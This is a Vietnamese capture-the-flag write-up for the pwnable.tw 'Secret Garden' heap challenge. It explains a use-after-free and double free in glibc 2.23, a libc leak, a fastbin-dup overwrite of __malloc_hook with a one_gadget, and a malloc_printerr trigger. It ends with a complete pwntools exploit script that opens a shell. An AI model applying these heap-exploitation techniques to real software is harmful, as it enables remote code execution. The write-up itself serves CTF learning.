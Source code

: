 # Secret Garden

# Challenge hôm nay là một chall heap cơ bản một chút nhưng có một số trick khá hay

## Phân tích và dịch ngược
Giống như các chall heap phổ biến khác đều có những hàm tạo chunk, xoá chunk, view chunk, chall này cũng vậy  

![menu1.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1627092268419/r6Ai3emAT.png)
Sau khi sử dụng pwninit để patch file elf và libc thì ta có đc thông tin sau:  

![ldd1.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1627092394139/Lvo31mko_.png)
File sử dụng glibc 2.23, malloc để tạo một flower mới, free để xoá các flower   
==> lỗi UAF và double free có thể được tận dụng ở đây  
Chúng ta sẽ tạo một struct flower để RE có code dễ nhìn hơn  
```C
struct flower{
    int32_t is_active;
    int32_t padd_0;
    char *name;
    char color[24];
}
```
## Content to exploit
Áp dụng cách làm ở bài [Tcachetear](https://vuotnh.hashnode.dev/tcachetear), ở bài này ta sẽ:  
* tạo một unsorted bin trong heap, sau đó show để leak được giá trị của libc_base, malloc_hook    
* Tạo một fake_chunk ở địa chỉ malloc_hook - 35 với size bất kì > 35 bằng double_free    
* Ghi dữ liệu vào chunk đã tạo, ghi đè giá trị của malloc_hook bằng one_gadget  
* Gọi đến malloc để thực thi one_gadget  

## Explain
### stage 1: leak libc

![leak_base.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1627092287028/4IOQFjJEs.png)
Về cách leak ở thì mình đã làm khá kĩ ở bài trên.  
Ở đây chúng ta bàn thêm về one_gadget.  
One_gadget thường được sử dụng khi chall cho file libc của elf, nó giúp chúng ta tìm được địa chỉ của system để lên shell nhanh hơn  
Với libc của bài này thì có one_gadget như sau:  

![one_gadget.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1627092366124/gpn7X2z2F.png)
* Dòng đầu tiên là offset từ libc base address đến địa chỉ của gadget  
* Dòng thứ hai khá quan trọng: đó là điều kiện cần thoả mãn để one_gadget có thể được thực thi  
* nếu không thoả mãn được các điều kiện này thì one_gadget sẽ không có tác dụng  

### stage 2: overwrite malloc_hook  
Chúng ta sẽ sử dụng [fast_bin_dup](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/fastbin_dup_into_stack.c) để ghi đè dữ liệu    
Chúng ta có thể debug file ở link trên để hiểu hơn về fastbin_dup
```sh
gcc -Wall fast_bin_dup.c -o hello -no-pie #tạo file elf
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:/path/to/lib_file # lệnh này để setup lib trước khi chạy file elf
```
* Double free, ghi đè bk của fastbin bằng địa chỉ malloc_hook - 35 của fakechunk  

![heap1.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1627092299488/28jTRF8q_.png)
* malloc 2 lần để tạo chunk mới tạo địa chỉ fakechunk, ghi đè malloc_hook bằng one_gadget  

![fake1.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1627092307053/DTOgi1_7i.png)

![fake2.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1627092314234/dFXnutMYQ.png)

### stage 3: trigger malloc_hook
Vấn đề ở đây đặt ra là: tại sao đã overwrite malloc_hook mà ko thể gọi hàm malloc để thực thi  
* Nếu ta ghi vào free_hook thì có thể gọi đến hàm free để thực thi gadget, nhưng ở chall này xung quanh __free_hook có nhiều byte null => không bypass đc security check  
* Nếu ghi vào malloc_hook và gọi malloc thì ta cần nhảy vào hàm create_flower sau đó mới gọi được malloc, chương trình sẽ nhảy vào gadget, tuy nhiên khi nhảy vào create_flower thì các giá trị điều kiện của one_gadget nói ở trên sẽ không được thoải mãn => không thực thi gadget.  
* trigger malloc_printerr : double free một chunk thì sẽ gọi đến malloc, thực sự thì mk không hiểu rõ cái này cho lắm coi như đây là một trick nhỏ cần ghi nhớ :)), các bạn có thể đọc thêm để hiểu nó ở [ĐÂY](https://blog.osiris.cyber.nyu.edu/2017/09/30/csaw-ctf-2017-auir/)

## Eploit script
```python
from pwn import *
from binascii import hexlify
# conn = process('./secretgarden_patched')
conn = remote('chall.pwnable.tw',10203)
libc = ELF('./libc_64.so.6')
def create_flower(length,name,color):
    conn.sendlineafter(b'choice :',"1".encode())
    conn.sendlineafter(b"name :", str(length).encode())
    conn.sendlineafter(b"flower :",name.encode())
    conn.sendlineafter(b"flower :", color.encode())

def show_flower():
    conn.sendlineafter(b"choice :","2".encode())

def remove(index):
    conn.sendlineafter(b"choice :","3".encode())
    conn.sendlineafter(b"garden:",str(index).encode())

# break point 0x108D, put + 0x74D, put+0x325

#leak stack
create_flower(0x400,"aaaaaaaa","aaaaaaaa")
create_flower(20,"aaaaaaaa","aaaaaaaa")
create_flower(30,"aaaaaaaa","aaaaaaaa")


remove(1)
remove(0)
create_flower(256,"aaaaaaaa","aaaaaaaa")
show_flower()
leak_addr = int.from_bytes(conn.recvuntil(b'\x7f')[-6:],byteorder='little') + 0x6e
libc_base = leak_addr  - 0x3c3b78
malloc_hook = libc_base  + libc.sym['__malloc_hook']
one_gadget = libc_base + 0xef6c4
log.info("libc base address: %#x" % libc_base)
log.info("malloc hook address: %#x" % malloc_hook)
log.info("onegadget address: %#x" % one_gadget)


# fast bin dup and overwrite malloc_hook
create_flower(0x60,'aaaa','aaaa') #4
create_flower(0x60,'aaaa','aaaa')#5
create_flower(0x60,'aaaa','aaaa')#6

remove(4)
remove(5)
remove(4)
fast_bin_fake = 35
conn.sendlineafter(b'choice :',"1".encode())
conn.sendlineafter(b"name :", str(0x60).encode())
conn.sendlineafter(b"flower :",p64(malloc_hook - 35))
conn.sendlineafter(b"flower :", 'aaaa'.encode())

create_flower(0x60, 'bbbb', 'bbbb')
create_flower(0x60, 'bbbb', 'bbbb')

conn.sendlineafter(b'choice :',"1".encode())
conn.sendlineafter(b"name :", str(0x60).encode())
conn.sendlineafter(b"flower :", b'a'*19 + p64(one_gadget))
conn.sendlineafter(b"flower :", 'aaaa'.encode())

# trigger malloc
remove(4)
remove(4)

conn.interactive()

```